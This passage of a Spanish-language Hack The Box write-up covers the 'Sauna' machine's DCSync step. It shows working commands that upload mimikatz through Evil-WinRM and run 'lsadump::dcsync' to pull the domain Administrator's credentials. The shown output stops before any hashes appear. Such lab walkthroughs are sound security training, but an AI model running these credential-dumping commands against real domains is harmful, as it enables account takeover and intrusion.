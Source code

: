 
# DCSync Attack

Si observamos, vemos que con el usuario *svc_loanmgr* tenemos los permisos **GetChanges** y **GetChangesAll** sobre el dominio. Esto significa que podemos realizar un **DCSync Attack** . El ataque lo podemos realizar de varias maneras, yo lo hare de dos maneras. La primera la realizare haciendo uso de la herramienta **impacket-secretsdump** y la segunda con **mimikatz**.

Empezare con **impacket-secretsdump**.

![](/assets/images/htb-writeup-sauna/secretsdump.png)

Y ahora lo haré con **mimikatz**.

```bash
*Evil-WinRM* PS C:\Windows\Temp\LPE> upload /home/kali/Escritorio/HTB/MachinesHTB/Sauna/content/mimikatz.exe
Info: Uploading /home/kali/Escritorio/HTB/MachinesHTB/Sauna/content/mimikatz.exe to C:\Windows\Temp\LPE\mimikatz.exe

                                                             
Data: 1666740 bytes of 1666740 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Windows\Temp\LPE> C:\Windows\Temp\LPE\mimikatz.exe 'lsadump::dcsync /domain:egotistical-bank.local /user:Administrator' exit

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # lsadump::dcsync /domain:egotistical-bank.local /user:Administrator
[DC] 'egotistical-bank.local' will be the domain
[DC] 'SAUNA.EGOTISTICAL-BANK.LOCAL' will be the DC server
[DC] 'Administrator' will be the user account

Object RDN           : Administrator
```